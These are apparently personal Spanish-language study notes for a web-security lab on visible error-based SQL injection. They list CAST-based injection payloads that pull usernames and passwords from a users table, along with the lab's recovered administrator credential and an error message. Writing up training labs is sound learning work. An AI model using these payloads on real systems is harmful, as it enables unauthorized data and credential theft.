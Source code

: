 # 13 Lab: Visible error-based SQL injection

```sql
' //Para ver el error que muestra
Debido a esto validamos que si o si nos va a pedir un char

' AND 1=CAST((SELECT 1) AS int)--
' AND 1=CAST((SELECT username FROM users) AS int)--

' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

user:administrator
pass:gp0zyjqbgui3toqe99hj
```

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2017efab5460ec8123a4f7cb02f6a68868/Untitled.png)

Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'zoEelT8oug2qYxK9''. Expected  char

Adapte la consulta para incluir una subconsulta SELECT genérica y convierta el valor devuelto a un tipo de datos int **Vemos que no muestra ningun error**

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2017efab5460ec8123a4f7cb02f6a68868/Untitled%201.png)

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2017efab5460ec8123a4f7cb02f6a68868/Untitled%202.png)

Aquí observamos la utilidad del CAST, puesto que nosotros vamos a forzar a que el resultado de nuestro select se convierta en INT, nos mostrará el error de “valor de la consulta” no puede ser un numero, revelándonos el valor

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2017efab5460ec8123a4f7cb02f6a68868/Untitled%203.png)

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2017efab5460ec8123a4f7cb02f6a68868/Untitled%204.png)

fdfsdfsd
